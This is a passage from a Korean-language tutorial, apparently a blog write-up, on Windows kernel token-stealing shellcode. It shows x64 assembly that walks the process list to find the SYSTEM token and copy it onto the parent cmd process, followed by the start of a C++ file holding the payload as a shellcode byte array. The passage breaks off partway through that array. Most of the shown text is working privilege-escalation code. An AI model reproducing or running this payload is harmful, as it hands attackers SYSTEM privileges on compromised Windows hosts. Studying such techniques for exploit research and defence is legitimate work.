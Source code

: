```
		MOV RCX, [RCX]
		JMP FindProcess
	FindProcess endp

	GetToken proc
		MOV RAX, [RCX+70h]  ; Get Token Object
		AND al, 0f0h
	GetToken endp

	Find_Cmd proc
		MOV RCX, [RCX]      ; Find My Process
		MOV RDX, [RCX-8]
		CMP RDX, RDI
		JNE Find_Cmd
	Find_Cmd endp

	CopyToken proc
		MOV [RCX+70h], RAX  ; Copy token
	CopyToken endp
	
	Restore proc
		POP RDI
		POP R9
		POP R8
		POP RDX
		POP RCX
		RET
	Restore endp
end
```

주석에 대부분의 설명을 작성하였습니다. `InheritedFromUniqueProcessId`는 이름 그대로 부모 프로세스를 의미합니다. 이는 처음 구하는 프로세스 객체가 작성한 프로세스이기 때문입니다. 콘솔을 통해 실행되기 때문에 해당 프로세스의 부모 프로세스가 `cmd` 프로세스이기 때문에 미리 백업을 해둔 후 비교하는 작업을 진행합니다.

전체 소스코드는 아래와 같습니다.

```c++
#include <stdio.h>
#include <Windows.h>

int main()
{

	BYTE ShellCode[] = {
		0x51,
		0x52,
		0x41,0x50,
		0x41,0x51,
		0x57,
		0x65,0x48,0x8B,0x0C,0x25,0x88,0x01,0x00,0x00,
		0x48,0x8B,0x91,0xB8,0x00,0x00,0x00,
		0x4C,0x8B,0x82,0xF0,0x02,0x00,0x00,
		0x48,0x8B,0xBA,0xE8,0x03,0x00,0x00,
		0x49,0x8B,0x08,
		0x48,0x8B,0x51,0xF8,
		0x48,0x83,0xFA,0x04,
		0x74,0x05,
		0x48,0x8B,0x09,
		0xEB,0xF1,
		0x48,0x8B,0x41,0x70,
		0x24,0xF0,
		0x48,0x8B,0x09,
		0x48,0x8B,0x51,0xF8,
		0x48,0x3B,0xD7,
```